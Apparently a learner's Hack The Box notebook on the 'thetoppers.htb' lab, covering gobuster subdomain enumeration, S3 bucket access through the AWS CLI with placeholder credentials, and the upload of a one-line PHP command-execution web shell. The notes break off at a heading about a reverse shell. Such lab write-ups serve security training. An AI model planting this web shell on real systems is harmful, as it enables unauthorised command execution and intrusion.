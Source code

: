 
---
tags:
- #hacking
- #hackthebox
- #IT
---

### 12.01.2024

Finding subdomains:
-> For some reason wfuzz is running mad slow on my PC, same wordlist work very fast with gobuster. Also
wfuzz do not even get the correct respons?
-> gobuster example: 

```
gobuster vhost -w ../../wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://thetoppers.htb
```

also, when running gobuster, the -u [URL] needs to be after the -w [wordlist], its stupide, but the 
first one did not work for me. NOTE: Remember to use --append-domain.
Confidentiality Integrity Availability
### 13.01.2024
Working with AWS S3 buckets:
Apparently we can use the AWS CLI tool without having real credentials, 
sometimes they only check is there is a value there. I sett all of them to temp.

Lising the buckets we also need to spesify the endpoint, example:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls

or:

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

  
### 14.01.2024
We have gained access to thetoppers.htb buckets, or the aws s3 service being hosted on the website.
I can see that there is nothing interessting information in it, but we we have the option to 
upload malicious files.

Getting a reverse shell:
```
<?php system($_GET["cmd"]); ?>
```

Uploading php shell file to the bucket. 
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### 15-16.01.2024
Uploading a reverse shell to a Amazone S3 bucket:
